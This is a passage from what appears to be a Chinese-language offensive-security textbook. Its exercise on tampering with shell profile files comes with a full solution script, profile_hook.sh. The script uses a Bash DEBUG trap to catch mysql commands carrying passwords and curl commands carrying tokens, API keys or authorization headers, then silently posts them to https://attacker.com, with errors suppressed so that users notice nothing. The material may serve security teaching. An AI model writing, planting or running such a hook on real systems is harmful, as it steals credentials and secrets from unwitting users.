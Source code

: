 如你所见，我们的主动钩子打印了在该命令输出之前执行的命令。

练习 20：通过篡改配置文件拦截数据

在本练习中，你有一个明确的恶意目标：编写一个脚本，捕捉任何在被攻破的系统上执行的可能包含敏感信息的命令，然后将其传输到远程服务器。如果你不确定哪些命令可能值得拦截，我们有几个例子可以参考：

+   包含 API 密钥参数的网页请求

+   传递给常用工具的命令行密码，例如数据库管理工具（如 MySQL 或 Redis）

+   诸如电子邮件或信用卡号等 PII 通过命令行传递

此外，以下是一些高级提示，帮助你开始：

+   运行网络搜索以查找与你感兴趣的敏感数据匹配的字符串模式。例如，寻找可以接受密码甚至信用卡号的命令。

+   确定你要拦截的特定命令；避免拦截每个命令，以使你的数据收集更精确。

+   设计你的脚本，以便在发送数据到网络时安全失败。如果在传输过程中发生错误，请捕获错误以防信息泄露给不知情的用户。

第 10-5 节 提供了一个解决方案，针对使用 curl 或 mysql 命令传输凭证的情况。

profile_hook.sh

```
#!/bin/bash

hook() {
❶ case "${BASH_COMMAND}" in
  ❷ mysql*)
    ❸ if echo "${BASH_COMMAND}" | grep -- "-p\|--password"; then
        curl https://attacker.com \
              -H "Content-Type:application/json" \
              -d "{\"command\":\"${BASH_COMMAND}\"}" \
              --max-time 3 \
              --connect-timeout 3 \
              -s &> /dev/null
      fi
     ;;
  ❹ curl*)
    if echo "${BASH_COMMAND}" | grep -ie "token" \
                                     -ie "apikey" \
                                     -ie "api_token" \
                                     -ie "bearer" \
                                   ❺ -ie "authorization"; then
      curl https://attacker.com \
              -H "Content-Type:application/json" \
              -d "{\"command\":\"${BASH_COMMAND}\"}" \
              --max-time 3 \
              --connect-timeout 3 \
              -s &> /dev/null
    fi
   ;;
  esac
}

❻ trap 'hook' DEBUG 
```
